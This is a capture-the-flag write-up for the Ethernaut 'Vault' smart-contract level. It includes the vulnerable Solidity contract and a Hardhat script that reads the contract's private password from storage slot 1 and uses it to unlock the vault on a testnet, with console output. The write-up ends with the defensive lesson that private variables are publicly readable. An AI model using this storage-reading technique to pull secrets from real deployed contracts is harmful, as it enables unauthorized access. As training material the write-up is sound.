```yaml
---
title: Ethernaut \#08 Vault
tags: [ethernaut]
style: border
color: primary
description: Ethernaut Vault challenge writeup
---
```


## Vault

### Challenge

Unlock the vault to pass the level!


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Vault {
  bool public locked;
  bytes32 private password;

  constructor(bytes32 _password) public {
    locked = true;
    password = _password;
  }

  function unlock(bytes32 _password) public {
    if (password == _password) {
      locked = false;
    }
  }
}
```

### Background

Private variables are not accessible by smart contracts, however, since the blockchain is public, anyone can check the value directly from the blockchain and use it.

### Attack

Somehow access the private `password` value from the public blockchain and use it to call the `unlock` function.

* Access the private `password` value from the blockchain
* Submit the `password` using to `unlock` function to unlock the vault

#### vault-solve.js

```javascript
const hre = require("hardhat");
const { ethers, upgrades } = require("hardhat");

async function main() {
    vaultAddress = "0x5F9f995f50C557073606266cdd86f148D72d9926";
    contract = await ethers.getContractAt("Vault", vaultAddress);

    const accounts = await hre.ethers.getSigners();
    account = accounts[0];

    console.log("Level address: " + contract.address)
    console.log("Vault locked : " + await contract.locked())

    // get private password value from storage
    paddedSlot = ethers.utils.hexZeroPad(1, 32);
    passwordBytes32 = await ethers.provider.getStorageAt(contract.address, paddedSlot);
    password = ethers.utils.toUtf8String(passwordBytes32)
    console.log("Password     : '" + password + "'")

    // submit password
    tx = await contract.connect(account).unlock(passwordBytes32)
    receipt = await tx.wait()

    console.log("Vault locked : " + await contract.locked())
    
}

main().catch((error) => {
    console.error(error);
    process.exitCode = 1;
});
```

```bash
$ npx hardhat run scripts/vault-solve.js --network rinkeby
Level address: 0x5F9f995f50C557073606266cdd86f148D72d9926
Vault locked : true
Password     : 'A very strong secret password :)'
Vault locked : false
```

### Success Message

It's important to remember that marking a variable as private only prevents other contracts from accessing it. State variables marked as private and local variables are still publicly accessible.

To ensure that data is private, it needs to be encrypted before being put onto the blockchain. In this scenario, the decryption key should never be sent on-chain, as it will then be visible to anyone who looks for it. [zk-SNARKs](https://blog.ethereum.org/2016/12/05/zksnarks-in-a-nutshell/) provide a way to determine whether someone possesses a secret parameter, without ever having to reveal the parameter.
